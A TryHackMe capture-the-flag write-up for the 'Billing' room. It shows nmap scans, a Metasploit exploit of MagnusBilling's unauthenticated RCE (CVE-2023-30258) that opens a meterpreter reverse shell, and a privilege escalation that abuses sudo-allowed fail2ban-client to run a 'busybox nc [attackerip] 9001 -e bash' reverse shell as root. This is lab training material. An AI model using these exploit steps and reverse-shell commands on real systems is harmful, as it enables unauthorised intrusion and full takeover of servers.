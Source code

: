 ```yaml
---
title: "Billing"
date: 2025-03-08
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF Billing
categories: [Tryhackme, Easy]
tags: [linux, metasploit, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Billing</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Some mistakes can be costly.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/billing">https://tryhackme.com/room/billing</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Billing.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.46.219         
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 05:13 EST
  Nmap scan report for 10.10.46.219
  Host is up (0.046s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  80/tcp   open  http
  3306/tcp open  mysql
  5038/tcp open  unknown

  Nmap done: 1 IP address (1 host up) scanned in 22.38 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,3306,5038 10.10.46.219
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 05:14 EST
  Nmap scan report for 10.10.46.219
  Host is up (0.042s latency).

  PORT     STATE SERVICE  VERSION
  22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
  | ssh-hostkey: 
  |   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
  |   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
  |_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
  80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
  | http-robots.txt: 1 disallowed entry 
  |_/mbilling/
  | http-title:             MagnusBilling        
  |_Requested resource was http://10.10.46.219/mbilling/
  |_http-server-header: Apache/2.4.56 (Debian)
  3306/tcp open  mysql    MariaDB (unauthorized)
  5038/tcp open  asterisk Asterisk Call Manager 2.10.6
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The webserver showed the login page of MagnusBilling, which is an open-source billing system for VoIP-services:

![MagnusBilling login](/assets/img/tryhackme/Billing/thm_billing_1.jpg)

I checked for potential vulnerabilities in `metasploit` and found an interesting exploit:
```bash
msf6 > search MagnusBilling

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                                  .                .          .      .

```

After loading the module, I set the required options and executed the exploit: 
```bash
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.10.251.160
RHOSTS => 10.10.251.160
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set SRVHOST [attackerip]
SRVHOST => [attackerip]
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST [attackerip]
LHOST => [attackerip]
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 10.21.63.26:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.251.160:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.15 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 10.10.251.160
[+] Deleted lTTlGxPShDz.php
[*] Meterpreter session 1 opened ([attackerip]:4444 -> 10.10.251.160:39784) at 2025-03-08 05:38:44 -0500

meterpreter > 
```

With this initial access, I successfully retrieved the user flag:
```bash
meterpreter > shell
  Process 1750 created.
	Channel 0 created.
whoami
	asterisk
cd /home
ls
	magnus
cd magnus
ls
  Desktop
  Documents
  Downloads
  Music
  Pictures
  Public
  Templates
  Videos
  user.txt
cat user.txt
  THM{[removed]}
```

## Privilege Escalation root

To obtain a more stable shell, I switched to `penelope`:

![Switch to penelope](/assets/img/tryhackme/Billing/thm_billing_2.jpg)

I continued with `sudo -l` and got the following output:
```bash
asterisk@Billing:/home$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

After researching Fail2Ban, I discovered that it is possible to execute Bash commands in addition to network block events. Before I started to missuse this I checked if I can control `fail2ban`:
```bash
asterisk@Billing:/home$ sudo fail2ban-client restart
  Shutdown successful
  Server ready
```

Great! Using this, I misused it with an additional ban-action:
```bash
asterisk@Billing:/var/tmp$ sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'busybox nc [attackerip] 9001 -e bash'"
```

Finally, I started a listener and triggered this by manually blocking an IP address in the `sshd jail`: 
```bash
asterisk@Billing:/var/tmp$ sudo /usr/bin/fail2ban-client set sshd banip 10.11.12.13
```

I successfully established the connection and retrieved the root flag.:
```bash
$ nc -lvnp 9001                 
listening on [any] 9001 ...
connect to [attackerip] from (UNKNOWN) [10.10.251.160] 47964
whoami
	root
cd /root
ls
	filename
	passwordMysql.log
	root.txt
cat root.txt
	THM{[removed]}
```

solved! :)
